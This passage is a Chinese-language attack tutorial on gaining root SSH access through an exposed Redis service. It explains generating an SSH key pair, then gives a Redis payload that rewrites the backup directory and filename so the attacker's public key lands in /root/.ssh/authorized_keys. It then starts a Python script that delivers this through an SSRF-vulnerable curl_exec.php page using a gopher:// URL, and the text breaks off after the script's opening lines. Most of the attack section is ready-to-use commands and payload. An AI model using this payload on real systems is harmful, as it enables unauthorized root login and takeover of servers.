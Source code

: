 ### 0x03 写ssh-keygen公钥，使用私钥登陆
在上面的内容中描述了如何使用Redis的数据备份执行命令，接下来讲解通过写入ssh-keygen公钥，使用私钥登录。思路还是利用备份，将私钥字符串备份到目标服务器.ssh目录下。<br />要完成此操作，需要两个前提条件

- Redis服务使用ROOT账号启动(可以临时执行sudo -u root /usr/bin/redis-server /etc/redis/redis.conf 来以root权限运行)
- 服务器开放了SSH服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。

首先在本地生成一对密钥
```bash
ssh-keygen -t rsa
margine:.ssh margin$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/Users/margin/.ssh/id_rsa):  
/Users/margin/.ssh/id_rsa already exists.
Overwrite (y/n)? y
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /Users/margin/.ssh/id_rsa.
Your public key has been saved in /Users/margin/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:QKUmi/y9Tu27soIg2+rRrvDO16sQBnrSCzkVx4RcTSw margin@margine.local
The key's randomart image is:
+---[RSA 2048]----+
| ..=++o..        |
|  ooE.o.         |
|. . ..+          |
|.* . + .         |
|* B .   S        |
|o*.+ . .         |
|o=oo..o .        |
|oo=.o.oo         |
|o==o.+=++o       |
+----[SHA256]-----+
```
查看密钥的字符串，一会使用Redis的备份功能，将密钥字符串传到目标服务器。
```bash
margine:.ssh margin$ cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDgDf+ah2WKGExLdwR/wb8959lZiiV+N0l55PxuwjkclpCAiZSXW8QSMmXPEyRazonnb63cLQHyOnB3u7IPRlqCcKIRnB3qX0GtgjPgDDQlda5pCY99tgtzPQ6qkaiOaxy6k6GQFdSYU5if2m4c/B1DlVSodw7F0sI+v8OG2iGy8UY2n+B049EKpgky45V96xhA9lIFi1tYJiLF7X6tx8l2Jf4OkC8y5am6P1lIG2vg2eraY6iXsCsE8D8Q2nYxdPT5ogKgdyjWULzbRMBjaPgxlgktv12cYjxqbIQhlUKGQxbBxIESf8sY+NMAODAwR4wBDl3thllYsHCzUf5c9yVR margin@margine.local
```
构造payload，如下：
```
config set dir /root/.ssh/
config set dbfilename authorized_keys
set margin "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDgDf+ah2WKGExLdwR/wb8959lZiiV+N0l55PxuwjkclpCAiZSXW8QSMmXPEyRazonnb63cLQHyOnB3u7IPRlqCcKIRnB3qX0GtgjPgDDQlda5pCY99tgtzPQ6qkaiOaxy6k6GQFdSYU5if2m4c/B1DlVSodw7F0sI+v8OG2iGy8UY2n+B049EKpgky45V96xhA9lIFi1tYJiLF7X6tx8l2Jf4OkC8y5am6P1lIG2vg2eraY6iXsCsE8D8Q2nYxdPT5ogKgdyjWULzbRMBjaPgxlgktv12cYjxqbIQhlUKGQxbBxIESf8sY+NMAODAwR4wBDl3thllYsHCzUf5c9yVR margin@margine.local"
save
quit
```
进一步得到python代码为：
```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import urllib2,urllib

url = "http://192.168.0.109/ssrf/base/curl_exec.php?url="
gopher = "gopher://192.168.0.67:6379/_"

# 攻击脚本
```